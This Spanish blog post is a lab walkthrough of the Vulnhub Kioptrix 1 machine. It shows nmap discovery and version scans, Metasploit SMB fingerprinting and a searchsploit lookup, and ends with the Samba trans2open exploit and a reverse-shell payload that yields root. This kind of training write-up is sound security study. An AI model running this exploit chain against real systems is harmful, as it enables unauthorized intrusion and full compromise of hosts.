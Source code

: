 ```yaml
---
title: "Vulnhub #2: Kioptrix 1"
description: Pentesting a máquina CSEC 2 en Vulnhub
date: 2025-05-11
scheduled: 2025-05-11
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

## Descubrimiento de hosts

1. Escaneamos para descubrir hosts:
nmap -sn <ip>/<rango>

Nos da el siguiente resultado:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-10 09:23 CEST
Nmap scan report for www.adsl.vf (192.168.0.1)
Host is up (0.0048s latency).
Nmap scan report for 192.168.0.10
Host is up (0.082s latency).
Nmap scan report for 192.168.0.16
Host is up (0.00044s latency).
Nmap scan report for 192.168.0.20
Host is up (0.000081s latency).
Nmap scan report for 192.168.0.24
Host is up (0.00041s latency).
Nmap done: 256 IP addresses (5 hosts up) scanned in 15.31 seconds
```

2. Escaneamos versiones
nmap -sV <ip>

```
 ~ nmap -sV 192.168.0.24
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-10 09:26 CEST
Nmap scan report for 192.168.0.24
Host is up (0.0021s latency).
Not shown: 994 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

Vemos que 192.168.0.24 es un redhat con varios puertos abiertos.

Nos interesa el servicio de Samba, pero necesitamos conocer su version antes de atacar.

Con metasploit podemos ejecutar el siguiente scanner:

```
msfconsole
search /scanner/smb/ #para buscar
use /auxiliary/scanner/smb/smb_version
show options
set rhosts 192.168.0.24
```

Al lanzarlo, obtenemos lo siguiente:

```
[*] 192.168.0.24:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.0.24:139      -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.0.24:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Una vez tenemos la version, podemos buscar si existen exploits con `searchsploit <servicio>` y `searchsplot <servicio> <version>`

Con searchsploit samba 2.2.1a nos da el siguiente resultado:

```
------------------------------- ---------------------------------
 Exploit Title                 |  Path
------------------------------- ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - tr | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Re | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap O | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial o | linux_x86/dos/36741.py
------------------------------- ---------------------------------
Shellcodes: No Results
```

Para explotar la vulnerabilidad debemos encontrar una en su version.

En concreto, aqui tenemos la vulnerabilidad trans2open, podemos buscarla con `search trans2open` en metasploit.

Debemos configurar el payload con `set payload linux/x86/shell_reverse_tcp` y el rhosts.

Al lanzarlo con run obtenemos una shell con usuario root.
